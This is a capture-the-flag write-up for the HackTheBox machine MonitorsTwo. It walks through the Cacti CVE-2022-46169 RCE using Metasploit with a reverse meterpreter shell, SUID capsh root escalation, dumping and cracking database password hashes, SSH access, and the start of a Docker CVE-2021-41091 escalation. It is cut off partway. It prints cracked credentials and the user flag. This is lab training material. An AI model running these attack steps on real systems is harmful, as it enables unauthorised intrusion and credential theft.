

# MonitorsTwo
MonitorsTwo is an Easy Difficulty Linux machine showcasing a variety of vulnerabilities and misconfigurations. Initial enumeration exposes a web application prone to pre-authentication Remote Code Execution (RCE) through a malicious X-Forwarded-For header. Exploiting this vulnerability grants a shell within a Docker container. A misconfigured capsh binary with the SUID bit set allows for root access inside the container. Uncovering MySQL credentials enables the dumping of a hash, which, once cracked, provides SSH access to the machine. Further enumeration reveals a vulnerable Docker version ( CVE- 2021-41091 ) that permits a low-privileged user to access mounted container filesystems. Leveraging root access within the container, a bash binary with the SUID bit set is copied, resulting in privilege escalation on the host.

## Enumeration
### Port Scanning
There are two open ports. 22 (ssh) and 80 (http):
```
┌──(kali㉿kali)-[~]
└─$ nmap $IP                                             
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-18 14:44 EDT
Nmap scan report for 10.10.11.211
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ nmap -sC -sV -oN nmap/general $IP 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-18 14:46 EDT
Nmap scan report for 10.10.11.211
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.51 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ nmap -p- -oN nmap/all_ports $IP                      
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-18 14:46 EDT
Nmap scan report for 10.10.11.211
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 41.87 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$                                                                                                                                                  127 ⨯

```
### HTTP
The http server (nginx) runs a Cacti application:


As we can see, the application is in the version 1.2.22. This version is vulnerable to Remote Code Execution (CVE-2022-46169):
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ searchsploit cacti 1.2.22
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                           |  Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cacti v1.2.22 - Remote Command Execution (RCE)                                                                           | php/webapps/51166.py
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ 
```

detailed information to the CVE can be found here:
* https://nvd.nist.gov/vuln/detail/CVE-2022-46169
* https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/
* https://defense.one/d/62-unauthenticated-rce-in-cacti-cve-2022-46169

## Exploiting Cacti
To exploit the vulnerability we can use for example Metasploit. Otherwise, we could use another PoC or write the exploit by ourselves.
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ msfconsole                                                                                                                                         1 ⨯

[...]

msf6 > search cacti

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                    ---------------  ----       -----  -----------
   0  exploit/linux/http/cacti_unauthenticated_cmd_injection  2022-12-05       excellent  Yes    Cacti 1.2.22 unauthenticated command injection
   1  exploit/unix/http/cacti_filter_sqli_rce                 2020-06-17       excellent  Yes    Cacti color filter authenticated SQLi to RCE
   2  exploit/unix/webapp/cacti_graphimage_exec               2005-01-15       excellent  No     Cacti graph_view.php Remote Command Execution
   3  exploit/windows/http/hp_sitescope_runomagentcommand     2013-07-29       manual     Yes    HP SiteScope Remote Code Execution


Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/http/hp_sitescope_runomagentcommand

msf6 > use 0
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > show options

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT               8080             yes       The target port (TCP)
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostname in the poller
                                                   table.


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to liste
                                       n on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set RHOSTS 10.10.11.211
RHOSTS => 10.10.11.211
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set RPORT 80
RPORT => 80
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set LHOST tun0
LHOST => 10.10.16.81
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.16.81:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
[*] Enumerating local_data_id values for host_id 1
[+] Found exploitable local_data_id 6 for host_id 1
[*] Sending stage (1017704 bytes) to 10.10.11.211
[*] Command Stager progress - 100.00% done (1118/1118 bytes)
[*] Meterpreter session 1 opened (10.10.16.81:4444 -> 10.10.11.211:45570) at 2023-09-18 15:13:16 -0400

meterpreter > 
meterpreter > shell
Process 10464 created.
Channel 1 created.
ls -al  
total 2792
drwxrwxrwx 1 www-data www-data   4096 Jan  9  2023 .
drwxr-xr-x 1 root     root       4096 Nov 15  2022 ..
-rw-rw-r-- 1 www-data www-data    577 Aug 14  2022 .mdl_style.rb
-rw-rw-r-- 1 www-data www-data     60 Aug 14  2022 .mdlrc
-rw------- 1 www-data www-data   1024 Jan  5  2023 .rnd
-rw-rw-r-- 1 www-data www-data 254887 Aug 14  2022 CHANGELOG
-rw-rw-r-- 1 www-data www-data  15171 Aug 14  2022 LICENSE
-rw-rw-r-- 1 www-data www-data  11318 Aug 14  2022 README.md
-rw-rw-r-- 1 www-data www-data   4341 Aug 14  2022 about.php
-rw-rw-r-- 1 www-data www-data  63112 Aug 14  2022 aggregate_graphs.php
-rw-rw-r-- 1 www-data www-data  18586 Aug 14  2022 aggregate_items.php
-rw-rw-r-- 1 www-data www-data  25705 Aug 14  2022 aggregate_templates.php
-rw-rw-r-- 1 www-data www-data  14677 Aug 14  2022 auth_changepassword.php
-rw-rw-r-- 1 www-data www-data  15221 Aug 14  2022 auth_login.php
-rw-rw-r-- 1 www-data www-data  19044 Aug 14  2022 auth_profile.php
-rw-rw-r-- 1 www-data www-data  24203 Aug 14  2022 automation_devices.php

[...]

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
And we got a shell on the system.

## Docker enumeration
If we take a quick look at the root directory, we notice that we are inside a docker container (see `.dockerenv` or `entrypoint.sh`).
```
cd /
ls -al 
total 1364
drwxr-xr-x   1 root root    4096 Sep 18 10:35 .
drwxr-xr-x   1 root root    4096 Sep 18 10:35 ..
-rwxr-xr-x   1 root root       0 Mar 21 10:49 .dockerenv
drwxr-xr-x   1 root root    4096 Mar 22 13:21 bin
drwxr-xr-x   2 root root    4096 Mar 22 13:21 boot
drwxr-xr-x   5 root root     340 Sep 17 21:13 dev
-rwxr-xr-x   1 root root     648 Jan  5  2023 entrypoint.sh
drwxr-xr-x   1 root root    4096 Mar 21 10:49 etc
drwxr-xr-x   1 root root    4096 Sep 18 10:34 home
drwxr-xr-x   1 root root    4096 Nov 15  2022 lib
drwxr-xr-x   2 root root    4096 Mar 22 13:21 lib64
drwxr-xr-x   2 root root    4096 Mar 22 13:21 media
drwxr-xr-x   2 root root    4096 Mar 22 13:21 mnt
drwxr-xr-x   2 root root    4096 Mar 22 13:21 opt
dr-xr-xr-x 292 root root       0 Sep 17 21:13 proc
drwx------   1 root root    4096 Mar 21 10:50 root
drwxr-xr-x   1 root root    4096 Sep 18 15:10 run
drwxr-xr-x   1 root root    4096 Jan  9  2023 sbin
drwxr-xr-x   2 root root    4096 Mar 22 13:21 srv
dr-xr-xr-x  13 root root       0 Sep 17 21:13 sys
drwxrwxrwt   1 root root   69632 Sep 18 19:13 tmp
drwxr-xr-x   1 root root    4096 Nov 14  2022 usr
drwxr-xr-x   1 root root    4096 Nov 15  2022 var
```
So we are probably not on the actual system. 

### Privilege Escalation
We should still first check whether we can escalate our rights:
```
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 30872 Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 55528 Jan 20  2022 /bin/mount
-rwsr-xr-x 1 root root 35040 Jan 20  2022 /bin/umount
-rwsr-xr-x 1 root root 71912 Jan 20  2022 /bin/su
```

We have a SUID bit on the binary `/sbin/capsh`. According to [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/), we can abuse this to get root access:
```
/sbin/capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
But we can't find any flag on the system. Whether in a user directory, nor in the root directory.

### Further system enumeration
In the `/entrypoint.sh` we find some information related to a MySQL database, that is used by the Cacti application:
```
cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```
This information could be also found in the file `/var/www/html/include/config.php`.

We can log into the database with the given credentials.

#### Even further enumeration
Even though further analyses were not really helpful, I would like to state them here, as they could be quite useful in other cases.
```
ip 
/bin/bash: line 48: ip: command not found
ifconfig
/bin/bash: line 49: ifconfig: command not found

cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.19.0.3      50bca5e748b0

hostname
50bca5e748b0

grep -v "rem_address" /proc/net/tcp | awk 'function hextonum(str, ret, n, i, k, c) {if (str ~ /^0[xX][0-9a-FA-F]+$/) {str = substr(str, 3);n = length(str);ret = 0;for (i = 1; i <= n; i++) {c = substr(str, i, 1);c = tolower(c);k = index("123456789abcdef", c);ret = ret * 16 + k}} else ret = "NOT-A-NUMBER";return ret} {y=hextonum("0x"substr($2,index($2,":")-2,2));x=hextonum("0x"substr($3,index($3,":")-2,2));for (i=5; i>0; i-=2) {x = x"."hextonum("0x"substr($3,i,2));y = y"."hextonum("0x"substr($2,i,2));} print y":"hextonum("0x"substr($2,index($2,":")+1,4))" "x":"hextonum("0x"substr($3,index($3,":")+1,4));}'

0.0.0.0:80 0.0.0.0:0
127.0.0.11:32953 0.0.0.0:0
172.19.0.3:80 172.19.0.1:44664
172.19.0.3:80 172.19.0.1:48220
172.19.0.3:37188 172.19.0.2:3306
172.19.0.3:59348 172.19.0.2:3306
172.19.0.3:38582 172.19.0.2:3306
172.19.0.3:45570 10.10.16.81:4444
172.19.0.3:35998 172.19.0.2:3306
172.19.0.3:80 172.19.0.1:49842
172.19.0.3:80 172.19.0.1:42886
172.19.0.3:42768 10.10.14.214:9090
172.19.0.3:38598 172.19.0.2:3306
172.19.0.3:35986 172.19.0.2:3306
172.19.0.3:47134 10.10.14.137:443
172.19.0.3:51160 172.19.0.2:3306
172.19.0.3:80 172.19.0.1:33184
172.19.0.3:35984 172.19.0.2:3306
172.19.0.3:38568 172.19.0.2:3306
172.19.0.3:80 172.19.0.1:36592
172.19.0.3:80 172.19.0.1:59204
172.19.0.3:51472 10.10.14.137:443
172.19.0.3:36004 172.19.0.2:3306
172.19.0.3:80 172.19.0.1:42880
```

LinPEAS can also enumerate docker containers. So it could also be helpful to run the script on the system:
```
meterpreter > upload ../../tools/linpeas.sh
[*] Uploading  : /home/kali/Desktop/tools/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 828.52 KiB (0.0%): /home/kali/Desktop/tools/linpeas.sh -> linpeas.sh
[*] Completed  : /home/kali/Desktop/tools/linpeas.sh -> linpeas.sh
meterpreter > shell
Process 10689 created.
Channel 4 created.
ls -al lin*
-rw-rw-r-- 1 www-data www-data   3495 Aug 14  2022 link.php
-rw-rw-r-- 1 www-data www-data  21889 Aug 14  2022 links.php
-rw-r--r-- 1 www-data www-data 848400 Sep 18 20:49 linpeas.sh
/bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
pwd
/var/www/html
chmod 755 linpeas.sh

./linpeas.sh > linpeas.txt
```

Taking a look on the capabilities could also be an interesting point:
```
getcap -r / 2>/dev/null


capsh --print
Current: cap_chown,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap=eip
Bounding set =cap_chown,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: cap_chown,!cap_dac_override,!cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,!cap_linux_immutable,cap_net_bind_service,!cap_net_broadcast,!cap_net_admin,cap_net_raw,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,cap_sys_chroot,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_mknod,!cap_lease,cap_audit_write,!cap_audit_control,cap_setfcap,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=33(www-data)
Guessed mode: UNCERTAIN (0)
```

### MySQL Server
With a command like `mysql --host=db --user=root --password=root cacti -e 'system /bin/bash -p'` we can also access the system itself. It seems like another docker container, but this is not interesting for us.

Even more interesting, is the data stored in the database:
```
mysql --host=db --user=root --password=root cacti -e 'show tables'
Tables_in_cacti
aggregate_graph_templates
aggregate_graph_templates_graph
aggregate_graph_templates_item
aggregate_graphs
aggregate_graphs_graph_item
aggregate_graphs_items
automation_devices
automation_graph_rule_items
automation_graph_rules
automation_ips
automation_match_rule_items
automation_networks
automation_processes
automation_snmp
automation_snmp_items
automation_templates
automation_tree_rule_items
automation_tree_rules
cdef
cdef_items
color_template_items
color_templates
colors
data_debug
data_input
data_input_data
data_input_fields
data_local
data_source_profiles
data_source_profiles_cf
data_source_profiles_rra
data_source_purge_action
data_source_purge_temp
data_source_stats_daily
data_source_stats_hourly
data_source_stats_hourly_cache
data_source_stats_hourly_last
data_source_stats_monthly
data_source_stats_weekly
data_source_stats_yearly
data_template
data_template_data
data_template_rrd
external_links
graph_local
graph_template_input
graph_template_input_defs
graph_templates
graph_templates_gprint
graph_templates_graph
graph_templates_item
graph_tree
graph_tree_items
host
host_graph
host_snmp_cache
host_snmp_query
host_template
host_template_graph
host_template_snmp_query
plugin_config
plugin_db_changes
plugin_hooks
plugin_realms
poller
poller_command
poller_data_template_field_mappings
poller_item
poller_output
poller_output_boost
poller_output_boost_local_data_ids
poller_output_boost_processes
poller_output_realtime
poller_reindex
poller_resource_cache
poller_time
processes
reports
reports_items
sessions
settings
settings_tree
settings_user
settings_user_group
sites
snmp_query
snmp_query_graph
snmp_query_graph_rrd
snmp_query_graph_rrd_sv
snmp_query_graph_sv
snmpagent_cache
snmpagent_cache_notifications
snmpagent_cache_textual_conventions
snmpagent_managers
snmpagent_managers_notifications
snmpagent_mibs
snmpagent_notifications_log
user_auth
user_auth_cache
user_auth_group
user_auth_group_members
user_auth_group_perms
user_auth_group_realm
user_auth_perms
user_auth_realm
user_domains
user_domains_ldap
user_log
vdef
vdef_items
version
```

Looking for some kind of user data, we find the table `user_auth`:
```
mysql --host=db --user=root --password=root cacti -e 'select * from user_auth'
id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview       graph_settings  login_opts      policy_graphs   policy_trees    policy_hosts    policy_graph_templates  enabled lastchange      lastlogin password_history locked  failed_attempts lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb           on      on      onon       on      2       1       1       1       1       on      -1      -1      -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1 -1       -1      -1              0       0       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      onon       on      1       1       1       1       1       on      -1      -1              on      0       0       2135691668

mysql --host=db --user=root --password=root cacti -e 'select username, password from user_auth'
username        password
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
guest   43e9a4ab75570f5b
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

And we found an interesting user called `marcus` with a password hash.

### Cracking the hash
Trying to crack the hash with the word list rockyou was successful pretty quickly:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ cat hashes
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes               
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:09 0.00% (ETA: 2023-09-21 16:58) 0g/s 84.61p/s 84.61c/s 84.61C/s caitlin..dancing
0g 0:00:00:17 0.01% (ETA: 2023-09-21 17:59) 0g/s 84.82p/s 84.82c/s 84.82C/s gonzalez..newlife
funkymonkey      (?)     
1g 0:00:01:39 DONE (2023-09-19 09:26) 0.01000g/s 85.39p/s 85.39c/s 85.39C/s lilpimp..coucou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/monitorstwo]
└─$           
```

## SSH access
Let's try to access the system via ssh with the credentials we found:
```
┌──(kali㉿kali)-[~]
└─$ ssh marcus@$IP                                                                                                                                   255 ⨯
The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.211' (ED25519) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 19 Sep 2023 01:30:04 PM UTC

  System load:                      0.0
  Usage of /:                       63.1% of 6.73GB
  Memory usage:                     15%
  Swap usage:                       0%
  Processes:                        236
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:e400

  => There is 1 zombie process.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$
```

And we got access to the system. A really important note here in this welcome message is in the last few lines: `You have mail.` (_to be honest, I did not notice this message directly_).

### User flag
Taking a look at our home directory, we can find the user flag:
```
marcus@monitorstwo:~$ ls -al 
total 28
drwxr-xr-x 3 marcus marcus 4096 Mar 22 12:13 .
drwxr-xr-x 3 root   root   4096 Jan  5  2023 ..
lrwxrwxrwx 1 root   root      9 Jan  5  2023 .bash_history -> /dev/null
-rw-r--r-- 1 marcus marcus  220 Jan  5  2023 .bash_logout
-rw-r--r-- 1 marcus marcus 3771 Jan  5  2023 .bashrc
drwx------ 2 marcus marcus 4096 Mar 21 10:49 .cache
-rw-r--r-- 1 marcus marcus  807 Jan  5  2023 .profile
-rw-r----- 1 root   marcus   33 Sep 19 12:57 user.txt
marcus@monitorstwo:~$ cat user.txt 
d238964ecc14fec08809fcf23b762c59
marcus@monitorstwo:~$ 
```

### Mail
As mentioned before, the user has a mail. I found this initially by investigating manually a few files and directories, that are common for CTFs like the bash history, `/var/mail` or `/opt`.

If we take a look at the mail, we find the following content:
```
marcus@monitorstwo:~$ ls -al /var/mail/
total 12
drwxrwsr-x  2 root mail 4096 Mar 22 11:46 .
drwxr-xr-x 13 root root 4096 Jan  9  2023 ..
-rw-r--r--  1 root mail 1809 Oct 18  2021 marcus
marcus@monitorstwo:~$ cat /var/mail/marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
marcus@monitorstwo:~$ 
```

To shorten things up, the third vulnerability (CVE-2021-41091) is relevant for us.

## Exploiting Docker 
From https://nvd.nist.gov/vuln/detail/CVE-2021-41091 :

_Moby is an open-source project created by Docker to enable software containerization. A bug was found in Moby (Docker Engine) where the data directory (typically `/var/lib/docker`) contained subdirectories with insufficiently restricted permissions, allowing otherwise unprivileged Linux users to traverse directory contents and execute programs. When containers included executable programs with extended permission bits (such as `setuid`), unprivileged Linux users could discover and execute those programs. When the UID of an unprivileged Linux user on the host collided with the file owner or group inside a container, the unprivileged Linux user on the host could discover, read, and modify those files. This bug has been fixed in Moby (Docker Engine) 20.10.9. Users should update to this version as soon as possible. Running containers should be stopped and restarted for the permissions to be fixed. For users unable to upgrade limit access to the host to trusted users. Limit access to host volumes to trusted containers._

So if the system is vulnerable, an unprivileged user can access (r-x) the data, that is mounted by the docker container. Those data is owned by the root user for compatibility purposes. So if there is a file with a SUID bit in the docker container, the unprivileged user can access and execute it. This could lead to a privilege escalation.

Our system is vulnerable to this CVE:
```
marcus@monitorstwo:~$ docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
marcus@monitorstwo:~$ 
```

### Finding directory
The file systems of the docker container are stored under `/var/lib/docker/`. Since we don't have permissions for this directory, we can numerate it.

With `findmnt` or `mount` we can inspect the mounted file systems. We can also find the docker file systems in use:
```
marcus@monitorstwo:~$ findmnt 
TARGET                                SOURCE      FSTYPE      OPTIONS
/                                     /dev/sda2   ext4        rw,relatime

[...]

├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/ov
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k
